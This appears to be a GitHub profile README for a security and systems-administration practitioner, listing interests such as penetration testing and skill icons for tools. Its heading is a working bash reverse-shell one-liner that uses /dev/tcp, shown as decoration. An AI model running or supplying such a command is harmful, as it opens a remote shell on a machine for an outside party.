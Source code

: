  <h1 align="center"> /bin/bash -i >& /dev/tcp/Sandra.Costales/444 0>&1 </h1>


<p align="left">
  
  <img src="https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExeDgzMmtzamtpeTB6cmF3aHZ2NmNyM3JyYzlhcG5uaHRjd3JuNTJ4cyZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/oYQ9HRm5Mo7VXeMNVR/giphy.gif" alt="image" width="450" align="right">
  </p>

   &lt;configuration&gt;

🖥️ Systems Administration

🛡️ Network Security

📶 Network Monitoring

👾 Ethical Hacking

💥 Penetration Testing

🕵️ Vulnerability Analysis

   &lt;/configuration&gt;


<h1> Skills :</h1>


<p align="center">
  <a href="https://skillicons.dev">
    <img src="https://skillicons.dev/icons?i=git,kubernetes,docker,ansible,aws,bash,debian,elasticsearch,gitlab,grafana,html,js,kali,linux,md,mysql,netlify,nginx,powershell,prometheus,py,raspberrypi,ubuntu,vscode&perline=12  " />
  </a>
</p>





